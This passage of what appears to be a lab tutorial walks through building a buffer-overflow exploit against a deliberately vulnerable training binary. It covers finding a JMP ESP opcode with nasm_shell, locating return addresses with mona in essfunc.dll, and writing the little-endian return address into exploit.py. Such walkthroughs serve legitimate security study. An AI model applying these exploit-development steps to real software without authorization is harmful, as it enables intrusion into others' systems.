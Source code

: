 ### Generating the Jump Code

* now we need to find the jump code, go to kali terminal and `locate nasm_shell`
* `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
* **essentially we're trying to convert Assembly language into hex code**
* `JMP ESP` and you'll see this output: `FFE4`
* back to mona: `!mona find -s "\xffe4" -m essfunc.dll`
* we're looking for the return addresses

![11-return-addresses](images/11-return-addresses.png)

* our found return address is **625011af**
* modify in exploit.py: `overflow = "A" * offset
* modify in exploit.py: `retn = "\xaf\x11\x50\x62"`
* so now we're gonna have the EIP via JUMP CODE and then the JUMP CODE will go into malicious code
* if you noticed it we are using the Jump Code in reverse because when we talk about x86 architecture we're doing something called **Little Endian** format. The x86 architecture actually stores the low order byte at the lowest address and the high order byte at the highest address, so we have to put our code in reverse order.
* this will throw the same error as before but it will also throw a jump point and we can use Immunity Debugger to catch this

### Catching The Jump Code

![12-catching-the-jump-code](images/12-catching-the-jump-code.png)
